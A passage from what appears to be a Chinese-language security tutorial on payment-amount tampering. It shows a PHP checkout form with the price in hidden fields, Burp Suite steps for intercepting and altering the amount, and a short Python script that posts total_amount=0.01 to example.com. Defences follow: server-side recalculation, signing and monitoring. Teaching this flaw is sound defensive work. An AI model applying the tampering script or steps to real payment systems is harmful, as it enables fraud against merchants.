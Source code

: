 ```php
echo "<form action='/checkout' method='POST'>";
echo "<input type='hidden' name='product_id' value='$product_id'>";
echo "<input type='hidden' name='quantity' value='$quantity'>";
echo "<input type='hidden' name='total_amount' value='$total_amount'>";
echo "<input type='submit' value='Pay Now'>";
echo "</form>";
?>
```

## 4. 实际命令、代码或工具使用说明

### 4.1 Burp Suite 使用说明

1. **启动Burp Suite**：打开Burp Suite，启动代理。
2. **配置浏览器代理**：将浏览器代理设置为Burp Suite的监听地址（默认`127.0.0.1:8080`）。
3. **拦截请求**：在Burp Suite的Proxy模块中，启用拦截功能。
4. **修改请求**：拦截到支付请求后，修改金额参数，然后点击“Forward”发送请求。

### 4.2 Python 脚本示例

以下是一个简单的Python脚本，用于模拟支付请求的篡改：

```python
import requests

# 原始支付请求
url = 'http://example.com/checkout'
data = {
    'product_id': 123,
    'quantity': 1,
    'total_amount': 100.00
}

# 修改金额
data['total_amount'] = 0.01

# 发送请求
response = requests.post(url, data=data)
print(response.text)
```

## 5. 防御措施

为了防止支付金额篡改漏洞，建议采取以下防御措施：

1. **服务器端验证**：在服务器端重新计算支付金额，确保与客户端提交的金额一致。
2. **参数签名**：对支付请求中的关键参数进行签名，防止参数被篡改。
3. **加密传输**：使用HTTPS加密传输支付请求，防止请求被拦截和篡改。
4. **日志监控**：记录支付请求日志，监控异常支付行为。

通过以上措施，可以有效防止支付金额篡改漏洞的发生，保障支付系统的安全性。

---

*文档生成时间: 2025-03-12 11:11:45*
